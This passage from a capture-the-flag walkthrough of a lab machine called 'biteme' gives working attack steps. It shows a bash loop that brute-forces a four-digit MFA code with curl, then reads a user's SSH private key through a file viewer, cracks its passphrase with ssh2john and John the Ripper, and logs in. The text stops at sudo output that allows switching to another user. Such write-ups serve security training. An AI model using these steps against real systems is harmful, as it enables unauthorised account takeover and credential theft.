 ```
#!/usr/bin/bash

for i in {0000..9999};do echo $i; curl -s -X POST --data "code=$i" 10.10.175.36/console/mfa.php --cookie "user=jason_test_account; pwd=abkr" | wc | grep -v "23      95    1523"; if [ $? -eq 0 ]; then echo FOUND IT; break; fi; done
```
here is the bash script from ```John Hammond```. Now it would take some time. let's wait and see what output it gives us.

Now it got the redirect on ```2671``` in my case, it would be different on your case.
SO we found it.Now we are in file browser and file viewer
Let's go to ```/home/jason``` directory. Here we found user.txt and .ssh directory.
now if we view the /home/jason/user.txt we would get the user flag

now if we try to get the .ssh public key we can try
```
/home/jason/.ssh/id_rsa.pub
```
and gives us the results of the private key

now let's try to get the private key
```
/home/jason/.ssh/id_rsa
```

and yeah. It gives us the private key. 
save that into a new file and now make that only readable by us
```
chmod 600 jason_id_rsa
```
now use ssh2john for using the private key in john the ripper

```
/usr/share/john/ssh2john.py jason_id_rsa > forjohn.txt
```
now let's crack the password.
```
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
use that password to login with ssh

```
ssh -i jason_id_rsa jason@10.10.175.36
```

if we type ```sudo -l``` we can view what can we do with this
```
jason@biteme:~$ sudo -l
Matching Defaults entries for jason on biteme:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on biteme:
    (ALL : ALL) ALL
    (fred) NOPASSWD: ALL
```
and the interesting part is we can do anything with fred without a password
we can change our user to fred in bash
